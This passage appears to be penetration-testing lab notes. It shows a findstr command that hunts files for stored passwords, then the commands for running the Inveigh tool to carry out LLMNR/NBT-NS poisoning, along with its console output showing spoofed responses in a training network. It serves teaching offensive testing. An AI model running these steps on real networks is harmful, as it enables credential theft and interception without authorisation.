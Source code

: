 ```cmd-session
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```


### LLMNR/NBT-NS Poisoning with Inveigh

[See Inveigh](inveigh.md).

LLMNR & NBT-NS poisoning is possible from a Windows host as well.  Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth.

**Powershell version**: The PowerShell version of Inveigh is the original version and is no longer updated. The tool author maintains the C# version (in the belowed section).

```
# Install the module
Import-Module .\Inveigh.ps1

# List parameters
(Get-Command Invoke-Inveigh).Parameters


# Start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file.
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```


**C#  version**:  Before we can use the C# version of the tool, we have to compile the executable. After that we can run:

```powershell
.\Inveigh.exe
```


Results:

```powershell
[*] Inveigh 2.0.4 [Started 2022-02-28T20:03:28 | PID 6276]
[+] Packet Sniffer Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]
[+] Spoofer Reply Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]
[ ] DHCPv6
[+] DNS Packet Sniffer [Type A]
[ ] ICMPv6
[+] LLMNR Packet Sniffer [Type A]
[ ] MDNS
[ ] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[ ] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[ ] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Packet Sniffer [Port 445]
[+] File Output [C:\Tools]
[+] Previous Session Files (Not Found)
[*] Press ESC to enter/exit interactive console
[!] Failed to start HTTP listener on port 80, check IP and port usage.
[!] Failed to start HTTPv6 listener on port 80, check IP and port usage.
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[-] [20:03:31] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
```